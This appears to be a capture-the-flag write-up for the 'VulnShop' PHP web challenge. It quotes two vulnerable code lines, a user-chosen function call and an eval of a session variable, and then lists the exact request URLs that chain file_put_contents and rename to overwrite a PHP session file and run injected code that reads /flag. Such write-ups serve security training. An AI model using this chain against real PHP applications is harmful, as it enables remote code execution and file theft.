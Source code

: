 # VulnShop (WEB)

+Task+
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.
http://vulnshop.teaser.insomnihack.ch

+Soluton+

[1] This line of code allows us to execute arbitrary function with arbitrary second argument. First argument is name of temp file.
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
```
[2] This line of code allows us to eval code in SESSION variable.
```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
```
So we need to rewrite SESSION variable.

* Generate SESSION_ID and create temp file /tmp - http://vulnshop.teaser.insomnihack.ch/?page=contactus
* Write php-code (which serialized into string) into temp-file [1] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents('/flag'))";
* Rewrite own session file by temp-file [1] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_b26cv2ap9haj27pf2t8rievn43
* Execute code in session file [2] - http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1
